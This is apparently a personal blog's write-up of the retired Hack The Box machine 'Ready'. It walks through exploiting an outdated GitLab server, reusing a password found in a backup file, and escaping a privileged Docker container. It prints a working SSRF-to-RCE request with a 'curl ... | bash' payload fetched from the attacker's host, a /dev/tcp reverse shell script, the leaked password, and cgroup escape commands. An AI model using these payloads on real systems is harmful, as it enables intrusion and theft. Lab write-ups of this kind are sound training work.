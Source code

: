 Title:HTB: Ready
Date: 05-16-2020 09:20
category:security
tags:security, boot2root, HTB, gitlab, docker
meta:security, boot2root, HTB, gitlab, docker

<img class="align-left" src="/media/2021.05/ready_card.png" alt="Ready card" width="262">

This is a writeup about a retired HacktheBox machine:
[Ready](https://www.hackthebox.eu/home/machines/profile/304) published on
December 12 2020 by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897)
This box is classified as a medium machine. This box implies an outdated gitlab
server, a clear text password in a backup file and a docker container.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 5080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sun Dec 13 03:40:16 2020 as: nmap -p- -sSV -oN nmap 10.129.29.192
    Nmap scan report for 10.129.29.192
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    5080/tcp open  http    nginx
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Dec 13 03:40:48 2020 -- 1 IP address (1 host up) scanned in 31.28 seconds

## Web

The HTTP service is once again a gitlab (my latest rooted box is laboratory TODO
link if already published) server. This time the version is 11.4.7. A Google
research "gitlab 11.4.7 exploit" lead us to a
[blog article about an RCE on gitlab during a CTF](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Following the blog exploitation we end up with a request looking like the
following and can validate the RCE using a python server on our kalibox.

    :::text
    POST /projects HTTP/1.1
    Host: 10.129.29.192:5080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.29.192:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1073
    Origin: http://10.129.29.192:5080
    Connection: close
    Cookie: _gitlab_session=140270c33fe803d8ab11d0f9a85c45cf; sidebar_collapsed=false
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&authenticity_token=%2BEHyUYosjkfZlzfMEpR8QFZ%2BWiJMAQQ%2BTiB3Wt%2FNK0fNBNX9EhAKd6VM6okCvVQ0fZ6HxSBzQdo%2Fx4Lfe4nDCw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%38%3a%38%30%30%30%2f%72%65%76%32%2e%73%68%20%7c%20%62%61%73%68%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=6&project%5Bpath%5D=ttreqqq139&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0

We can even just manually import a git project using the following "git url":
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cxxxxxxxxx%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git` and replacing the payload `xxxxxxxxxxx` with our own URL encoded.

We send the following payload `curl http://10.10.14.18:8000/rev2.sh | bash`.

The content of rev2.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.18/4443 0>&1

We run a netcat listener to catch our reverse shell. We end up with a shell as
`git` that can read the user flag.

    :::text
    kali@kali:~$ nc -l -p 4443
    bash: cannot set terminal process group (485): Inappropriate ioctl for device
    bash: no job control in this shell
    git@gitlab:~/gitlab-rails/working$ id
    id
    uid=998(git) gid=998(git) groups=998(git)
    git@gitlab:/$ find / -name 'user.txt' 2>/dev/null
    find / -name 'user.txt' 2>/dev/null
    /home/dude/user.txt
    git@gitlab:/$ cat /home/dude/user.txt
    cat /home/dude/user.txt
    e1e30b052b6ec0670698805d745e7682

# Root

## Enumeration

We enumerate a few file and find the `/opt/backup/` directory which contain a few
files. The file `gitlab.rb` contain a smtp password.

    :::text
    git@gitlab:/opt/backup$ grep -i pass gitlab.rb
    grep -i pass gitlab.rb
    #### Email account password
    # gitlab_rails['incoming_email_password'] = "[REDACTED]"
    #     password: '_the_password_of_the_bind_user'
    #     password: '_the_password_of_the_bind_user'
    #   '/users/password',
    #### Change the initial default admin password and shared runner registration tokens.
    # gitlab_rails['initial_root_password'] = "password"
    # gitlab_rails['db_password'] = nil
    # gitlab_rails['redis_password'] = nil
        gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
    # gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
    ##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
    # postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
    # postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
    # redis['password'] = 'redis-password-goes-here'
    ####! **Master password should have the same value defined in
    ####!   redis['password'] to enable the instance to transition to/from
    # redis['master_password'] = 'redis-password-goes-here'
    # geo_secondary['db_password'] = nil
    # geo_postgresql['pgbouncer_user_password'] = nil
    #     password: PASSWORD
    ###! generate this with `echo -n '$password + $username' | md5sum`
    # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
    #     password: MD5_PASSWORD_HASH
    # postgresql['pgbouncer_user_password'] = nil

We need an interactive shell to be able to input a password, we use python for
that purpose and end up with a shell as root.

    :::text
    git@gitlab:~/gitlab-rails/working$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    <orking$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ su
    su
    Password: wW59U!ZKMbG9+*#h

    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    id
    uid=0(root) gid=0(root) groups=0(root)

Nonetheless we cannot find any `root.txt` file. As you probably already guess or
notice we are in a docker container.

## Docker escape

We run [deepce](https://github.com/stealthcopter/deepce): Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
We use a python server on our kalibox to transfer the script using `wget --recursive --no-parent http://10.10.14.18:8000`.
And we run it.

    :::text
    <SNIP>
    [+] Privileged Mode ......... Yes
    The container appears to be running in privilege mode, we should be able to access the
    raw disks and mount the hosts root partition in order to gain code execution.
    See https://stealthcopter.github.io/deepce/guides/docker-privileged.md
    <SNIP>

An other quick Google research allow us to find a [medium article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)
to learn more about docker's privilege mode with a few command line to execute a
command on the system. We just replace the `echo "ps aux > $host_path/output" >> /cmd` line
with `echo "cat /root/root.txt > $host_path/output" >> /cmd` and grab the root
hash.

    :::text
    <SNIP>
    root@gitlab:/tmp/.plop# echo "cat /root/root.txt > $host_path/output" >> /cmd
    echo "cat /root/root.txt > $host_path/output" >> /cmd
    root@gitlab:/tmp/.plop# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    root@gitlab:/tmp/.plop# cat /output
    cat /output
    b7f98681505cd39066f67147b103c2b3

# Wrapping up

The box is not that hard (less than laboratory [TODO LINK]) and quit interesting
as the exploitation of the gitlab's SSRF and its upgrade to an RCE was really
interesting and detailed on the blog article.

